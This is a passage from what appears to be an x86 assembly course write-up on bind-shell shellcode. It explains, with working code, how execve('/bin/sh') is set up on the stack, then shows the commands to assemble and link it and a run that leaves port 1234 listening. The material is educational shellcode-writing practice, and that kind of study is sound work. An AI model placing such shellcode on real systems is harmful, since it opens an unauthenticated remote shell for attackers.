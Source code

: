 ### Execve

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#33cccc;">;; execve("/bin/sh", NULL, NULL);</span>
xor eax, eax    <span style="color:#33cccc;">; zero out the eax register </span>
push eax        <span style="color:#33cccc;">; push NULL into the stack </span>
push 0x68732f2f <span style="color:#33cccc;">; push "hs//" in reverse order into stack </span>
push 0x6e69622f <span style="color:#33cccc;">; push "nib/" in reverse order into stack </span>
mov ebx, esp    <span style="color:#33cccc;">; point ebx into stack</span>
push eax        <span style="color:#33cccc;">; push NULL into the stack </span>
mov edx, esp    <span style="color:#33cccc;">; point to edx into stack </span>
push ebx        <span style="color:#33cccc;">; push ebx into stack </span>
mov ecx, esp    <span style="color:#33cccc;">; point to ecx into stack </span>
mov al, 0xb     <span style="color:#33cccc;">; 0xb indicates the execve syscall </span>
int 0x80        <span style="color:#33cccc;">; execute execve syscall</span>
</pre>


<p style="text-align:justify;">
As just shown, the <b>/bin/sh</b> string is pushed onto the stack in reverse order by first pushing the terminating null value of the string, and then pushing the <b>//sh</b> (4 bytes are required for alignment and the second / has no effect), and finally pushing the <b>/bin</b> onto the stack. At this point, we have all that we need on the stack, so <b>esp</b> now points to the location of <b>/bin/sh</b>.
</p>

Then, the following commands will be used in order to compile and link the code.

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
  <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># nasm -f elf32 -o bind.o bind.nasm
  <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># ld -z execstack -o bind bind.o
</pre>

Furthermore, the bind program runs as follows

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># ./bind
</pre>


<p style="text-align:justify;">
Then from <b>netstat</b> tool can be seen that the target machine listens to port <b>1234</b> and waits for an incoming connection.
</p>
